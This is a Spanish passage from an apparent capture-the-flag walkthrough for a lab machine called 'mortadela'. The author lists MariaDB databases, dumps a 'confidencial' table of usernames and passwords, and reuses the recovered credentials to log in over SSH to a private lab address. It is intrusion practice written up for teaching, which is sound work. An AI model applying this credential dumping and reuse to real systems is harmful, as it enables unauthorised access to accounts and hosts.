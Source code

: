 Veamos que bases de datos existen:
```bash
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| confidencial       |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| wordpress          |
+--------------------+
6 rows in set (0.005 sec)
```
Muy curiosa esa BD que se llama **confidencial**.

Usemos esa BD y veamos sus tablas:
```bash
MariaDB [(none)]> use confidencial;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [confidencial]> show tables;
+------------------------+
| Tables_in_confidencial |
+------------------------+
| usuarios               |
+------------------------+
1 row in set (0.003 sec)
```
Solo hay una tabla que se llama **usuarios**.

Veamos su contenido:
```bash
MariaDB [confidencial]> select * from usuarios;
+-----------+------------------+
| usuario   | contraseña       |
+-----------+------------------+
| mortadela | Jua******* |
+-----------+------------------+
1 row in set (0.005 sec)
```
Parece que es la contraseña del **usuario mortadela**.

Al no poder usar el login que encontramos de **WordPress**, podemos probar estas credenciales con el **servicio SSH**.

Probemos:
```bash
ssh mortadela@192.168.1.60
mortadela@192.168.1.60's password: 
Linux mortadela 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jan 30 02:02:06 2025 from X.X.X.X
mortadela@mortadela:~$ whoami
mortadela
```
Muy bien, estamos dentro.
